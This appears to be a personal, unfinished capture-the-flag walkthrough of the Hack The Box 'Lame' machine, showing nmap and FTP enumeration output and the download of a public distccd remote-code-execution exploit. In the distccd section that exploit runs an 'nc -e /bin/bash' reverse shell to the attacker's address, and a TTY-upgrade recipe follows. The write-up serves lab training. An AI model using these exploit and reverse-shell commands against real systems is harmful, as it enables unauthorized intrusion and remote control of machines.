










# _**Lame**_

## Index
* Scanning
	* Nmap
* Enumeration 
	* Ftp

## Scanning

### Nmap

* sudo nmap -sS -p- -Pn -n --open --min-rate 5000 -vvv 10.10.10.3 -oG allPorts
* nmap -sC -sV -p21,22,139,445,3632 -Pn -n 10.10.10.3 -oN targeted

>PORT     STATE SERVICE     VERSION
**21/tcp**   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.11
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
**22/tcp**   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
**139/tcp**  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
**445/tcp**  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
**3632/tcp** open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: mean: -3d00h53m55s, deviation: 2h49m44s, median: -3d02h53m57s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-09-30T10:57:48-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

## Enumeration

### FTP

* ftp 10.10.10.3

>Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:gato): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp>

* searchsploit vsftpd 2.3.4


oh... please no...

search in google for vsftpd exploit github
https://github.com/ahervias77/vsftpd-2.3.4-exploit/blob/master/vsftpd_234_exploit.py

nothing...

### vsftpd 3.8.2

* wget https://raw.githubusercontent.com/ahervias77/vsftpd-2.3.4-exploit/master/vsftpd_234_exploit.py

### distccd

* wget https://gist.githubusercontent.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855/raw/48ab4eb0bd69cac67bc97fbe182e39e5ded99f9f/distccd_rce_CVE-2004-2687.py

python distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -c "whoami"


* Reverse shell
>	* RCE
python distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -c "nc -e /bin/bash 10.10.14.11 4547"

>	* Listening
rlwrap nc -lvp 4547


### Samba (Another form)





### How to set up a full TTY

```bash
script /dev/null -c bash
# ctrl + z
stty -a
stty raw -echo
fg # it doesn't show on the screen
reset
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
```

### User flag



### Root flag


